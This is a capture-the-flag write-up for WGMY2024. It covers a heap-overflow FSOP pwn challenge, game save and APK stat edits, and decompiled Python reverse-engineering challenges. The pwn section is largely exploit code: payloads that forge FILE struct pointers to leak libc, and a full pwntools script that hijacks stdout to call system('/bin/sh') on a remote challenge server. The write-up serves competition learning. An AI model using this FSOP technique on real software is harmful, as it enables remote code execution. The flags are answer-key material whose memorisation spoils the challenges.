 # WGMY2024

## Table of Contents
- [pwn/screenwriter](#pwnscreenwriter)
- [game/world 1](#gameworld-1)
- [game/world 2](#gameworld-2)
- [rev/stones](#revstones)
- [rev/sudoku](#revsudoku)

## Pwn/Screenwriter

Challenge Description : Use our software to craft your next blockbuster hit!

Challenge Summary : This challenge involves overwriting the FILE struct to gain arbitrary read and write

<details>
<summary>Source Code</summary>

```c
#include <stdio.h>
#include <stdbool.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void init(){
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    return;
}

void menu(){
    puts("1. Set screenwriter name");
    puts("2. Write script");
    puts("3. View reference");
    puts("4. Exit");
}

int get_choice(){
    char tmp[5] = "";
    printf("Choice: ");
    fgets(tmp,4,stdin);
    return atoi(tmp);
}

void main(){
    init();
    char* name = malloc(0x28);
    FILE *ref_script = fopen("bee-movie.txt","r");
    FILE *own_script = fopen("script.txt","w");
    puts("Welcome to our latest screenwriting program!");
    
    while (true){
        int choice = 0;
        menu();

        switch (get_choice()) {
            case 1:
                printf("What's your name: ");
                read(0,name,0x280);
                break;        

            case 2:
                char own_buf[0x101] = "";
                printf("Your masterpiece: ");
                read(0,own_buf,0x100);
                fwrite(own_buf,1,0x100,own_script);
                break;

            case 3:
                char ref_buf[0x11] = "";
                memset(ref_buf,0,0x11);
                fread(ref_buf,1,0x10,ref_script);
                puts("From the reference:");
                puts(ref_buf);
                break;

            default:
                printf("Goodbye %s",name);
                exit(0);
        }
    }
}
```

</details>

Looking at the source code, we can see an obvious buffer overflow in option 1 which lets us overwrite data in the heap. However, it is not immediately clear what we are suppose to overwrite.

![image](https://github.com/user-attachments/assets/34f34683-5893-4583-8a32-cc9c67c230cc)

Looking at it in gdb, we can see our name chunk with size 0x31 at the top. After that, theres another chunk with size 0x1e1 followed by the value 0xfbad2488. When I saw this value, FSOP immediately came to mind. What is a FILE struct? Lets let @Ren explain 

![image](https://github.com/user-attachments/assets/9614f272-4910-4799-9d79-8f3a70ec1e0d)

You can take a look at the definition in [elixir bootlin](https://elixir.bootlin.com/linux/v6.12.6/source)

<details>
<summary>FILE Struct</summary>

```c
struct _IO_FILE
{
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */

  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;	/* Current read pointer */
  char *_IO_read_end;	/* End of get area. */
  char *_IO_read_base;	/* Start of putback+get area. */
  char *_IO_write_base;	/* Start of put area. */
  char *_IO_write_ptr;	/* Current put pointer. */
  char *_IO_write_end;	/* End of put area. */
  char *_IO_buf_base;	/* Start of reserve area. */
  char *_IO_buf_end;	/* End of reserve area. */

  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */

  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  _IO_lock_t *_lock;
  __off64_t _offset;
  /* Wide character stream stuff.  */
  struct _IO_codecvt *_codecvt;
  struct _IO_wide_data *_wide_data;
  struct _IO_FILE *_freeres_list;
  void *_freeres_buf;
  size_t __pad5;
  int _mode;
  /* Make sure we don't get into trouble again.  */
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
};
```

</details>

The FILE Struct contains many fields which manage buffering.

### Analysis

![image](https://github.com/user-attachments/assets/03c4a9dd-ef7a-4ef6-a6df-42a5cf45204f)

After using option 3, we can see that the struct is now populated with values.

![image](https://github.com/user-attachments/assets/d9123403-d0ad-450e-b409-864d182c755a)

The contents of the bee script is read into 0x405690 which corresponds to the values in the struct above. Now, our goal will be to overwrite the pointers on the struct to trick it into thinking theres a buffer located somewhere else. Then we will use option 3 to leak this value. Our target will be the GOT entry of puts()

```
GOT protection: Full RelRO | GOT functions: 13

[0x403f88] puts@GLIBC_2.2.5  →  0x7ffff7c80ed0
```

```py
payload = b"A" * 0x28
payload += p64(0x1e1)
payload += p64(0xfbad2488)
payload += p64(0x403f88)
payload += p64(0x404f88)
payload += p64(0x403f88) * 5
payload += p64(0x404f88)
```

![image](https://github.com/user-attachments/assets/32f89dfc-24e7-4817-abcd-78f7ad8980bd)

Now that we know where is libc, maybe we can spawn a shell on the server. To do that, we need to be able to freely write anywhere in memory. Luckily for us, there is a 2nd file struct which lets us write data. Now, we should overwrite the struct fields to trick libc into thinking that the buffer is located somewhere else. But where should we write to? I used [angry-FSROP](https://blog.kylebot.net/2022/10/22/angry-FSROP/) to spawn shell on server. 

### Getting Arbitrary Write

```py
payload = b"A" * (0x198 + 0x70)
payload += p64(0x1e1)
payload += p64(0xfbad2c84)
payload += p64(stdout) 
payload += p64(0x0) * 5
payload += p64(stdout)
payload += p64(stdout + 0x1000)
```

![image](https://github.com/user-attachments/assets/52214079-50ad-4ed1-92da-b9907e244482)

Now, the buffer for our write is located at `_IO_2_1_stdout_`. The next thing to do would be to overwrite stdout with our payload.

```py
fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=libc.sym['system']
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh\x00')
fake._lock=stdout_lock
fake._codecvt= stdout + 0xb8
fake._wide_data = stdout+0x200
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)
```

![image](https://github.com/user-attachments/assets/ed3c8a0d-a18c-4f47-aca7-60b5718e81c0)

<details>
<summary>Solve Script</summary>

```py
#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./chall_patched')
libc = exe.libc

host = "43.216.119.115"
port = 32782

gdb_script = '''

'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

# p = exe.process()
p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)

sla(b"Choice: ", "3")

payload = b"A" * 0x28
payload += p64(0x1e1)
payload += p64(0xfbad2488)
payload += p64(0x403f88)
payload += p64(0x404f88)
payload += p64(0x403f88) * 5
payload += p64(0x404f88)

sla(b"Choice: ", "1")
s(payload)
sla(b"Choice: ", "3")

ru(b"reference:\n")
libc.address = u64(rl() + b"\x00\x00") - (0x7f9149c80ed0 - 0x00007f9149c00000)
environ = libc.sym["environ"]
li(f"Libc base @ {hex(libc.address)}")

stdout_lock = libc.address + 0x21ba70
stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
gadget = libc.address + 0x0000000000163830

payload = b"A" * (0x198 + 0x70)
payload += p64(0x1e1)
payload += p64(0xfbad2c84)
payload += p64(stdout) 
payload += p64(0x0) * 5
payload += p64(stdout)
payload += p64(stdout + 0x1000)

print(hex(len(payload)))
sla(b"Choice: ", "1")
s(payload)

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=libc.sym['system']
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh\x00')
fake._lock=stdout_lock
fake._codecvt= stdout + 0xb8
fake._wide_data = stdout+0x200
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)

print(hex(len(bytes(fake))))
sla(b"Choice: ", "2")
s(bytes(fake))

# debug()

p.interactive()
```

</details>

### Side Note

There are multiple ways to solve this challenge, potentially overwriting the return address of read() or overwriting the exit functions handler with a one gadget. I tried both but it didnt work for me so I guess its a skill issue. Though, I was very satisfied with this because its my first time solving a FSOP challenge after reading writeups about it.

## Game/World 1

When saving the game, we get a RMMZSave file which we can edit using this [Save Edit](https://www.saveeditonline.com/)

![image](https://github.com/user-attachments/assets/dcad718c-1093-455f-9ccf-97b2d4f7ccff)

Then, just play the game and one shot the bosses to get all the flag. Flag 1, 2 and 3 is obtainable by killing the boss. Flag 4 can be obtained by killing the lava world boss and walking back out. The flag is written on the floor. The final flag is obtained by unlocking the chest and entering the password "wgmy". Hints about the password is given as "23 7 13 25".

## Game/World 2

Open the apk in APKLab and look for interesting things. One thing I found was the Enemies.json

![image](https://github.com/user-attachments/assets/1129c465-dc52-4921-a649-cdac2b4fed99)

`"params":[600,0,20,20,20,20,20,20]`

I assumed the params are the stats of the monster and just modified the biggest number (assuming to be HP) to 1. Then, recompile the APK and sign it. Then install the game in BlueStacks and play through the game to get all the flags. Flags are obtained in the same way as World 1

## Rev/Stones

Running strings on the file shows that its a python executable

![image](https://github.com/user-attachments/assets/bc14c56f-1ed3-41df-8970-2fe9d6a13a7b)

Use [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) on the exe.

<details>
<summary>Extracted</summary>

```py

```py
# Source Generated with Decompyle++
# File: CHAL-stones.pyc (Python 3.10)

import requests
from datetime import datetime
from urllib.request import urlopen
from datetime import datetime
server_url = 'http://3.142.133.106:8000'
current_time = urlopen('http://just-the-time.appspot.com/')
current_time = current_time.read().strip()
current_time = current_time.decode('utf-8')
current_date = current_time.split(' ')[0]
local_date = datetime.now().strftime('%Y-%m-%d')
# print(current_date)
# print(local_date)
if current_date == local_date:
    print("We're gonna need a really big brain; bigger than his?")
first_flag = 'WGMY{1d2993'
user_date = current_date
params = {
    'first_flag': first_flag,
    'date': user_date }
response = requests.get(server_url, params, **('params',))
if response.status_code == 200:
    print(response.json()['flag'])
#     return None
# None(response.json()['error'])
```

</details>

From the challenge description, theres a `/flag` endpoint on the server so just navigate to `http://3.142.133.106:8000/flag` and the server will respond with a YouTube video link. Send a get request to `http://3.142.133.106:8000` with the date set to the upload date of the YouTube video will give us the flag.

## Rev/Sudoku

Once again, another python executable. Just use pyinstxtractor and pycdc to get the original code back

<details>
<summary>Extracted</summary>

```py

```py
# Source Generated with Decompyle++
# File: sudoku.pyc (Python 3.11)

import random
alphabet = 'abcdelmnopqrstuvwxyz1234567890.'
plaintext = '0 t.e1 qu.c.2 brown3 .ox4 .umps5 over6 t.e7 lazy8 do.9, w.my{[REDACTED]}'

def makeKey(alphabet):
    alphabet = list(alphabet)
    random.shuffle(alphabet)
    return ''.join(alphabet)

key = makeKey(alphabet)

def encrypt(plaintext, key, alphabet):
    pass
# WARNING: Decompyle incomplete

enc = encrypt(plaintext, key, alphabet)
```

</details>

### Solve

<details>
<summary>Solve Script</summary>

```py

```py
plaintext = '0 t.e1 qu.c.2 brown3 .ox4 .umps5 over6 t.e7 lazy8 do.9, w.my'
anotherrr = 'z v7o1 an7570 9d.tl3 7.4b 7n2pws .qodx v7oc ye68u m.7r, t728'

# Function to create a mapping from plaintext to anotherr
def create_mapping(plaintext, anotherr):
    # Initialize an empty dictionary to store the character mapping
    char_mapping = {}

    # Iterate over the characters in both strings
    for p_char, a_char in zip(plaintext, anotherr):
        if p_char != ' ' and a_char != ' ':  # Ignore spaces
            char_mapping[p_char] = a_char
    
    return char_mapping

# Create the mapping
mapping = create_mapping(plaintext, anotherrr)
encrypted_message = "t728{09er1bzbs9sx5sosu7719besr39zscbx}"

# Print the character mapping
# print("Character Mapping:")
i = 0
flag = ""
        
print(mapping)

for i in range(len(encrypted_message)):
    for p_char, a_char in mapping.items():
        if a_char == encrypted_message[i]:
            flag += p_char
print(flag)
```
</details>


![image](https://github.com/user-attachments/assets/605fcf21-3a9d-47d3-93f4-cc8227503e88)

Our output is `w.my2ba914045b56c5e58..1b4a593b05746` but since we know the flag format and we know that the hash is hex values, we can just fix the flag to `wgmy{2ba914045b56c5e58ff1b4a593b05746}`
